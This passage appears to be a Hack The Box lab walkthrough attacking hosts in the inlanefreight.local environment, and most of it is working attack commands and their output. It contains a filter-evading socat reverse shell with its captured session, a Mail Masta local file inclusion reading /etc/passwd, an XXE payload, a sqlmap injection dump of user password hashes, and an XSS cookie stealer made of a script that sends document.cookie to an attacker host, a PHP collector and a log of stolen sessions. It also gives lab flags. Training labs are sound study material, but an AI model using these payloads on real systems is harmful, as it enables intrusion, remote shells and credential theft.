    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
<?php
echo $output;
?>

```

socat is not blacklisted:




a socat reverse shell is then used and adapted to evade the filters:

```
socat TCP:10.10.14.111:9001 EXEC:bash
```

```
GET /ping.php?ip=127.0.0.1%0aso'c'at${IFS}TCP:10.10.14.111:9001${IFS}EXEC:bash
```




a shell as webdev is achieved on dmz01:

```
nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.14.111] from (UNKNOWN) [10.129.41.126] 57022
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
python3 -c 'import pty; pty.spawn("/bin/bash")'
webdev@dmz01:/var/www/html/monitoring$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                
┌──(kali㉿kali)-[~/labs/aen/xss]
└─$ stty raw -echo; fg  
[1]  + continued  nc -lvnp 9001

webdev@dmz01:/var/www/html/monitoring$ find / -name "flag.txt" 2>/dev/null
/home/srvadm/flag.txt
/srv/ftp/flag.txt
webdev@dmz01:/var/www/html/monitoring$ cat /home/srvadm/flag.txt            
b447c27a00e3a348881b0030177000cd
webdev@dmz01:/var/www/html/monitoring$ cat /srv/ftp/flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
webdev@dmz01:/var/www/html/monitoring$ 
```

This shell will be used later for local privilege escalation and pivoting to internal networks.
## ir.inlanefreight.local

img1

```
curl -s http://ir.inlanefreight.local | grep WordPress 
<meta name="generator" content="WordPress 6.0" />

```

```
 wpscan --url http://ir.inlanefreight.local --enumerate
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________


Scan Aborted: An API token is required for vulnerable plugin/theme enumeration. You can get a free API token with 25 daily requests by registering at https://wpscan.com/register. Provide it via --api-token TOKEN or the WPSCAN_API_TOKEN environment variable.
                                                                                                                
┌──(kali㉿kali)-[~/labs/aen]
└─$ wpscan --url http://ir.inlanefreight.local --enumerate p,t,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://ir.inlanefreight.local/ [10.129.229.147]
[+] Started: Thu Nov  5 13:20:57 2026
[+] Command Line: wpscan --url http://ir.inlanefreight.local --enumerate p,t,u
[+] Hostname: kali

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.53 (Debian)
 |  - X-Powered-By: PHP/7.4.29
 |  - Via: 1.1 ir.inlanefreight.local
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://ir.inlanefreight.local/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://ir.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://ir.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://ir.inlanefreight.local/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.0 identified (Insecure, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Last Updated: 2026-04-11 4:00am GMT (6 months ago, per WordPress.org)
 | Active Installs: 100 (per WordPress.org)
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | [!] The version is out of date, the latest version is 1.0
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0, Match: 'Version: 0.7'

[+] Enumerating Most Popular Plugins (via Passive and Aggressive Methods)

[+] b2i-investor-tools
 | Location: http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/
 | Last Updated: 2025-05-22 5:29am GMT (1 year ago)
 | Readme: http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/readme.txt
 | [!] The version is out of date, the latest version is 1.0.8.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.5 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/style.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/export.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/wb_script.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amcharts.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/serial.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amstock.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/export.js?ver=1.0.5
 | Confirmed By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/readme.txt

[+] mail-masta
 | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19 7:52am GMT (12 years ago)
 | Readme: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[+] akismet
 | Location: http://ir.inlanefreight.local/wp-content/plugins/akismet/
 | Latest Version: 5.7.2
 | Last Updated: 2026-08-18 11:42pm GMT (2 months ago, per WordPress.org)
 | Active Installs: 5,000,000 (per WordPress.org)
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.
 Checking Known Locations - Time: 00:00:52 <==============================> (1500 / 1500) 100.00% Time: 00:00:52
[i] 3 plugin(s) Identified.
[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)

[+] cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Last Updated: 2026-04-11 4:00am GMT (6 months ago, per WordPress.org)
 | Active Installs: 100 (per WordPress.org)
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | [!] The version is out of date, the latest version is 1.0
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css, Match: 'Version: 0.7'

[+] twentytwenty
 | Location: http://ir.inlanefreight.local/wp-content/themes/twentytwenty/
 | Last Updated: 2026-10-28 4:00am GMT (8 days ago, per WordPress.org)
 | Active Installs: 200,000 (per WordPress.org)
 | Readme: http://ir.inlanefreight.local/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/twentytwenty/style.css
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/twentytwenty/, status: 500
 |
 | Version: 2.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/twentytwenty/style.css, Match: 'Version: 2.0'

[+] twentytwentyone
 | Location: http://ir.inlanefreight.local/wp-content/themes/twentytwentyone/
 | Last Updated: 2026-08-19 4:00am GMT (2 months ago, per WordPress.org)
 | Active Installs: 200,000 (per WordPress.org)
 | Readme: http://ir.inlanefreight.local/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/twentytwentyone/style.css
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/twentytwentyone/, status: 500
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/twentytwentyone/style.css, Match: 'Version: 1.6'

[+] twentytwentytwo
 | Location: http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/
 | Last Updated: 2026-08-19 4:00am GMT (2 months ago, per WordPress.org)
 | Active Installs: 100,000 (per WordPress.org)
 | Readme: http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/style.css
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/, status: 200
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/style.css, Match: 'Version: 1.2'
 Checking Known Locations - Time: 00:00:16 <================================> (400 / 400) 100.00% Time: 00:00:16
[i] 4 theme(s) Identified.
[+] Enumerating Users (via Passive and Aggressive Methods)

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 Brute Forcing Author IDs - Time: 00:00:00 <==================================> (10 / 10) 100.00% Time: 00:00:00
[i] 4 user(s) Identified.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Thu Nov  5 13:22:15 2026
[+] Requests Done: 1985
[+] Cached Requests: 27
[+] Most response codes received: 404: 1922, 200: 49, 403: 7, 500: 5, 302: 1
[+] Data Sent: 574.86 KB
[+] Data Received: 1.324 MB
[+] Memory used: 318.09 MB
[+] Elapsed time: 00:01:18
```

mail masta lfi:

```shell
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

```shell
 curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/flag.txt"
 
HTB{e7134abea7438e937b87608eab0d979c}
```


## shopdev2.inlanefreight.local

all img

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <subtotal>&xxe;</subtotal>
    <userid>&xxe;</userid>
</root>

```

HTB{dbca4dc5d99cdb3311404ea74921553c}


## status.inlanefreight.local

the request is captured

```
POST / HTTP/1.1
Host: status.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://status.inlanefreight.local
Connection: keep-alive
Referer: http://status.inlanefreight.local/
Cookie: PHPSESSID=0l9r6ofd54amkrnjir3rb894hr
Upgrade-Insecure-Requests: 1
Priority: u=0, i

searchitem=a

```

```
sqlmap -r status.txt --technique=BEU --batch --dump
        ___
       __H__                                                                                                    
 ___ ___[.]_____ ___ ___  {1.10.9#stable}                                                                       
|_ -| . ["]     | .'| . |                                                                                       
|___|_  ["]_|_|_|__,|  _|                                                                                       
      |_|V...       |_|   https://sqlmap.org                                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:54:10 /2026-11-05/

[14:54:10] [INFO] parsing HTTP request from 'status.txt'
[14:54:10] [INFO] resuming back-end DBMS 'mysql' 
[14:54:10] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-6639' OR 5509=5509#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=a' AND GTID_SUBSET(CONCAT(0x717a6a6a71,(SELECT (ELT(4643=4643,1))),0x71786b6b71),4643)-- lfrE

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=a' UNION ALL SELECT NULL,CONVERT(CONCAT(0x717a6a6a71,0x787447546d5770724553734d78765a49594c4f676662664d646b506f47426b63466a43484b6a6e4a,0x71786b6b71) USING utf8mb4) COLLATE utf8mb4_bin,NULL,NULL#
---
[14:54:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[14:54:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:54:10] [INFO] fetching current database
[14:54:10] [WARNING] reflective value(s) found and filtering out
[14:54:10] [INFO] fetching tables for database: 'status'
[14:54:11] [INFO] fetching columns for table 'users' in database 'status'
[14:54:11] [INFO] fetching entries for table 'users' in database 'status'
Database: status
Table: users
[2 entries]
+----+-----------------------------------+----------+
| id | password                          | username |
+----+-----------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6 | Admin    |
| 2  | 1fbea4df249ac4f4881a5da387eb297cf | Flag     |
+----+-----------------------------------+----------+

[14:54:11] [INFO] table '`status`.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local/dump/status/users.csv'                                                                            
[14:54:11] [INFO] fetching columns for table 'company' in database 'status'
[14:54:11] [INFO] fetching entries for table 'company' in database 'status'
Database: status
Table: company
[6 entries]
+----+-------------+--------+--------------+
| id | city        | rating | company_name |
+----+-------------+--------+--------------+
| 1  | Washington  | 9      | Shiprocket   |
| 2  | Springfield | 8      | Delhivery    |
| 3  | Franklin    | 9      | Gati         |
| 4  | Greenville  | 7      | Ecom Express |
| 5  | Bristol     | 9      | FedEx        |
| 6  | Fairview    | 8      | Blue Dart    |
+----+-------------+--------+--------------+

[14:54:11] [INFO] table '`status`.company' dumped to CSV file '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local/dump/status/company.csv'                                                                        
[14:54:11] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local'                                                                                                    

[*] ending @ 14:54:11 /2026-11-05/


```

## tracking.inlanefreight.local

```javascript
<script>
  var x = new XMLHttpRequest();
  x.open("GET", "file:///etc/passwd", false);
  x.send();
  document.write(x.responseText);
</script>
```

HTB{49f0bad299687c62334182178bfd75d8}


## support.inlanefreight.local

script.js:

```javascript
document.location='http://10.10.15.1/index.php?c='+document.cookie;
new Image().src='http://10.10.15.1/index.php?c='+document.cookie;
```

index.php:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

start a server with both files:

```
sudo php -S 0.0.0.0:80
```

incolla nel campo Message

"><script src="http://10.10.14.111/script.js"></script>

```
sudo php -S 0.0.0.0:80
[Mon Nov  9 14:20:31 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
[Mon Nov  9 14:25:19 2026] 10.129.41.101:32818 Accepted
[Mon Nov  9 14:25:19 2026] 10.129.41.101:32818 [200]: GET /script.js
[Mon Nov  9 14:25:19 2026] 10.129.41.101:32818 Closing
[Mon Nov  9 14:25:19 2026] 10.129.41.101:32820 Accepted
[Mon Nov  9 14:25:19 2026] 10.129.41.101:32820 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov  9 14:25:19 2026] 10.129.41.101:32820 Closing
[Mon Nov  9 14:25:21 2026] 10.129.41.101:32842 Accepted
[Mon Nov  9 14:25:21 2026] 10.129.41.101:32842 [200]: GET /script.js
[Mon Nov  9 14:25:21 2026] 10.129.41.101:32842 Closing
[Mon Nov  9 14:25:21 2026] 10.129.41.101:32844 Accepted
[Mon Nov  9 14:25:21 2026] 10.129.41.101:32844 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov  9 14:25:21 2026] 10.129.41.101:32844 Closing
^C                                                                         
```

metti il cookie con cookie editor 

HTB{1nS3cuR3_c00k135}

|Ticket ID|Ticket Name|Status|
|---|---|---|
|9821|Sam|Resolved|
|9820|Nick|Resolved|
|9819|Tom|Resolved|
|9818|John|HTB{1nS3cuR3_c00k135}|


